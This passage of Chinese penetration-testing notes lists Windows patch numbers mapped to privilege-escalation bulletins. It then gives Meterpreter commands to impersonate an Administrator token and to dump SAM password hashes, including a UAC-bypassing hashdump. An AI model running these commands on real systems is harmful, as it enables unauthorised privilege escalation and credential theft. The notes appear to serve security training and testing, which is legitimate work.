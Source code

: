 | KB2621440    | MS12-020                   |              |                             |              |                             |
| KB977165     | MS10-015Ms Viru            |              |                             |              |                             |
| KB3139914    | MS16-032                   |              |                             |              |                             |
| KB3124280    | MS16-016                   |              |                             |              |                             |
| KB3134228    | MS16-014                   |              |                             |              |                             |
| KB3079904    | MS15-097                   |              |                             |              |                             |
| KB3077657    | MS15-077                   |              |                             |              |                             |
| KB3045171    | MS15-051                   |              |                             |              |                             |
| KB3000061    | MS14-058                   |              |                             |              |                             |
| KB2829361    | MS13-046                   |              |                             |              |                             |
| KB2850851    | MS13-053EPATHOBJ 0day 限32位 |              |                             |              |                             |
| KB2707511    | MS12-042  sysret -pid      |              |                             |              |                             |
| KB2124261    | KB2271195  MS10-065 IIS7   |              |                             |              |                             |
| KB970483     | MS09-020IIS6               |              |                             |              |                             |

### 令牌窃取法

列出可用Token：

```
use icognito
list_tokens -u
```

授权令牌Delegation Tokens支持交互式登录，模拟令牌Impersonation Tokens支持非交互会话。

例如分配的有效令牌包含：WIN-57TJ4B561MT\Administrator，则假冒Administrator进行攻击：

```
impersonate_token WIN-57TJ4B561MT\\Administrator #双斜杠
whoami #管理员
```

### Hash攻击

#### Hashdump

如果不是System权限，以下直接导出sam文件会失败：

```
hashdump
```

如果目标机为Win7且开启UAC，则绕过：

```
run windows/gather/smart_hashdump
```
